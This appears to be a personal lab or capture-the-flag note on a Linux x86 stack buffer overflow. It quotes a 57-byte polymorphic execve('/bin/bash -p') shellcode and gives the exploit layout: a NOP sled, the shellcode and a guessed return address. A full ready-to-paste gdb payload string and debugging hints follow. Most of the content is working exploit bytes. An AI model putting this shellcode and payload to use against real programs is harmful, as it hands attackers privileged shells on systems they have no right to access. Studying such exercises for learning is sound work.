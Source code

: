 Shellcode by Jonathan Salwan
<div style="width: 100%; overflow-x: auto; ">
    <div style="display: inline-block;  height: 50px; margin: 10px; background-color:#242729; padding:15px" > \xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81
</div>
</div>

```
Title: 	Linux x86 - polymorphic execve("/bin/bash", ["/bin/bash", "-p"], NULL) - 57 bytes

Exploit Structure
'\x90' * (132-57) + Shellcode + Dummy Pointer with size of 4 (\x38\xd2\xff\xff)
Because we don't know the actaul pointer, which points memomry chunk before shellcode
```

<img src="img/Pasted image 20240719201528.png" alt="Example Image" width="1080"/>

```
run `echo -e "EXPLOIT"`
```

Copy this 

```
run `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81\x38\xd2\xff\xff"`
```

Don't give continue , analyze `250wx` `x/250wx $esp` , note from the last page , skip initial have some few `\x90` 

<img src="img/Pasted image 20240719202000.png" alt="Example Image" width="1080"/>

